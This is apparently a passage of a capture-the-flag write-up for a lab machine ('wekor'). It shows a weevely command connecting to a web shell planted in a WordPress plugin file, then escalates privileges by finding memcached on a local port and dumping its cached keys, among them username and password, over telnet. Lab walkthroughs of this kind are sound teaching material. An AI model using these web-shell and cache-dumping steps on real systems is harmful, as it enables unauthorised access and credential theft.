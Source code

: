 connect to shell weevely
```sh
weevely http://site.wekor.thm/wordpress/wp-content/plugins/hello.php yourpass
```

Priv Esc
--------

Start with user `www-data`

Hint in description room say : 
## `recognizing internal services`

List services that run locally.

```sh
ss -alp 
...
tcp    LISTEN     0      10     127.0.0.1:3010                  *:*                    
tcp    LISTEN     0      80     127.0.0.1:mysql                 *:*                    
tcp    LISTEN     0      128    127.0.0.1:11211                 *:*                    
tcp    LISTEN     0      128     *:ssh                   *:*                    
tcp    LISTEN     0      5      127.0.0.1:ipp                   *:*                    
tcp    LISTEN     0      128    :::http                 :::*                    
tcp    LISTEN     0      128    :::ssh                  :::*                    
tcp    LISTEN     0      5         ::1:ipp                  :::*   
...
```

- notice service `memcached` port= `11211` 

- references here : 
	- https://memcached.org/
	- https://github.com/memcached/memcached/wiki/UserInternals

- use `telnet` 

`stats items`
```sh
www-data@osboxes:/$ telnet 127.0.0.1 11211
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
stats items     
STAT items:1:number 5
STAT items:1:age 3740
STAT items:1:evicted 0
STAT items:1:evicted_nonzero 0
STAT items:1:evicted_time 0
STAT items:1:outofmemory 0
STAT items:1:tailrepairs 0
STAT items:1:reclaimed 0
STAT items:1:expired_unfetched 0
STAT items:1:evicted_unfetched 0
STAT items:1:crawler_reclaimed 0
STAT items:1:crawler_items_checked 0
STAT items:1:lrutail_reflocked 0
END
```
dump cached by run `stats cachedump 1 0`
```sh
...
stats cachedump 1 0
ITEM id [4 b; 1615475816 s]
ITEM email [14 b; 1615475816 s]
ITEM salary [8 b; 1615475816 s]
ITEM password [15 b; 1615475816 s]
ITEM username [4 b; 1615475816 s]
```